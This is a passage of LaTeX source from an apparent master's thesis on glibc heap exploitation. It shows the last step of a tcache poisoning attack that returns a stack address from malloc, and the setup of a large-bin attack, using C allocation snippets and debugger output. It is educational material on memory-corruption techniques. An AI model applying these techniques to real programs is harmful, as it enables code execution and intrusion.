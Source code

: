 \documentclass{masterthesis}
\newcommand*\tch{tcache}
\newcommand*\ub{unsorted bins}
\newcommand*\lb{large bins}
\begin{document}
\begin{lstlisting}[frame=tlrb]
Tcachebins[idx=7, size=0x90] count=2 Chunk(addr=0x555555559330, size=0x90, flags=PREV_INUSE) Chunk(addr=0x7fffffffde68, size=0x7ffff7fc7fc8, flags=) Chunk(addr=0x555555555410, size=0x9066c3c9fffffcc0, flags=NON_MAIN_ARENA) [Corrupted chunk at 0x8d4c5741fa1e0ff3]
\end{lstlisting}

Now, as you can see in the final layout of \tch{}, the previous chunk is not valid anymore, it is a controller located in the stack:
\begin{lstlisting}[language=c,frame=tlrb]
[ 0x555555559330 -> 0x7fffffffdee8 ]
\end{lstlisting}
In the final step with one allocation, we can remove top chunk from the \tch{}, so, the next allocation return our controller location (the size must be the same):
\begin{lstlisting}[language=c,frame=tlrb]
malloc(128)
intptr_t *c = malloc(128);
\end{lstlisting}

\section{\lb{} Attack}
As the name suggests, this attack is about the \lb{}. The goal is to force a \lb{} to write data in a controlled location.
\begin{lstlisting}[language=c,frame=tlrb]
size_t target = 0;
size_t *p1 = malloc(0x428);
size_t *g1 = malloc(0x18);
size_t *p2 = malloc(0x418);
size_t *g2 = malloc(0x18);
\end{lstlisting}
The first step is to define the target, also, we need to define two chunks in the range size of \lb{}, moreover, we need to define two chunks between them to prevent them from merging or the top chunk.
\begin{lstlisting}[language=c,frame=tlrb]
free(p1);
size_t *g3 = malloc(0x438);
\end{lstlisting}
In the second step, we free the most significant chunk; however, the freed chunk is not in the \lb{} yet. As we discussed, a free chunk adds to \ub{} at first, so, The best way to move it into the \lb{} is to allocate a new bigger chunk. In this way, the heap manager checks the chunk inside the \ub{}, then adds them into the corresponding bins (Like other attacks).
\begin{lstlisting}[language=c,frame=tlrb]
free(p2);
\end{lstlisting}
In the third step, we freed the smaller chunk. Now we have one chunk inside the \lb{} and one chunk in the \ub{}.
\begin{lstlisting}[language=c,frame=tlrb]
[+] unsorted_bins[0]: fw=0x5555555596e0, bk=0x5555555596e0
 Chunk(addr=0x5555555596f0, size=0x420, flags=PREV_INUSE)

[+] large_bins[63]: fw=0x555555559290, bk=0x555555559290
 Chunk(addr=0x5555555592a0, size=0x430, flags=PREV_INUSE)
\end{lstlisting}
\end{document}
